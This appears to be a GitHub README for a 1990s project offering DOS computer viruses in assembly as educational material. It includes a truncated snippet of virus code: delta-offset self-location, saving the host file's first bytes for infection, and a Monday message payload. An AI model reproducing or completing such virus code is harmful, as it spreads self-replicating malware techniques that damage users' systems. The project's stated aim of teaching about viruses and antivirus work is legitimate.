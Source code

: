 Computer Viruses
================

Last update: 1996 - 1997

This project contains education / informative materials about DOS viruses.

- The [/src](/src) folder contains a few DOS bases viruses created in assembly language
- The [/doc](/doc) folder contains information about DOS viruses and antiviruses

```assembly
lungime equ ((offset sfirsit)-(offset entry))
.model tiny
.code
org 100h
entry: call entr                                ; find in BP the address of the virus
entr   proc near
       pop bp
       sub bp,3
       mov byte ptr [cale+2-entry+bp],'C'

       mov cx,5                                 ; save the first 5 bytes
       mov si,offset header-entry               ; in memory
       add si,bp
       mov di,offset horig-entry
       add di,bp
       rep movsb

          mov ah,2ah
          int 21h
          cmp al,1                               ; display the message if monday
          jnz urmat
          mov ah,9
          mov dx,offset mesaj-entry
          add dx,bp
          int 21h

	...
```

VMA
